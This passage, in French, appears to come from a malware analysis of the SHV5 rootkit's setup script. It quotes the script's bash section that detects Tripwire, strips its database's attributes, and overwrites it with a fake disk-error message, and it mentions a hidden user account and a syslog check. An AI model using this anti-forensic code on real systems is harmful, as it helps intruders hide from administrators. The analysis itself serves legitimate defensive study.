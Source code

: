 On a ici un ajout automatique d'un compte utilisateur ainsi qu'une référence à une adresse email pour le moins suspects...

Pour terminer, le `setup` analyse brièvement le fichier de configuration de `syslog` pour déterminer si les logs sont envoyés sur un serveur distant.  

Voyons la suite du script :

```bash
#######################################################################
## CHEKING FOR MALICIOUS ADMIN TOOLS !(like tripwire, snort, etc...) ##
##                                                                   ##
#######################################################################

echo -n "${DCYN}[${WHI}sh${DCYN}]# checking for tripwire...  ${RES}"

uname=`uname -n`
twd=/var/lib/tripwire/$uname.twd

if [ -d /etc/tripwire ]; then
  echo "${WHI} ALERT: TRIPWIRE FOUND! ${RES}"

  if [ -f /var/lib/tripwire/$uname.twd ]; then
    chattr -isa $twd
    echo -n "${DCYN}[${WHI}sh${DCYN}]# checking for tripwire-database... ${RES}"
    echo "${RED} ALERT! tripwire database found ${RES}"
    echo "${DCYN}[${WHI}sh${DCYN}]# ${WHI} dun worry we got handy-tricks for this :) ${RES}"
    echo "-----------------------------------------" > $twd
    echo "Tripwire segment-faulted !" >> $twd
    echo "-----------------------------------------" >> $twd
    echo "" >> $twd
    echo "The reasons for this may be: " >> $twd
    echo "" >> $twd
    echo "corrupted disc-geometry, possible bad disc-sectors" >> $twd
    echo "corrupted files while checking for possible change etc." >> $twd
    echo ""
    echo "pls. rerun tripwire to build the database again!" >> $twd
    echo "" >> $twd
  else
    echo "${WHI} lucky you: Tripwire database not found. ${RES}"
  fi
else
  echo "${WHI} guess not. ${RES}"
fi
```

Cette partie du script regarde si `Tripwire`, un outil de vérification d'intégrité des fichiers, est installé sur la machine. Le rootkit ne cherche pas à leurrer `Tripwire` car l'opération est délicate.
D'autant plus que, comme on le verra dans la suite de ce script setup, `SHV5` est un rootkit qui fonctionne par remplacement des binaires sur le système donc moins évolué et facilement détectable comparé à un rootkit noyau.  

Ici `SHV5` insère dans la base de données de `Tripwire` un message d'erreur (probablement récupéré dans le code de `Tripwire`) destiné à faire croire l'administrateur du système que le disque dur a des secteurs défectueux.  
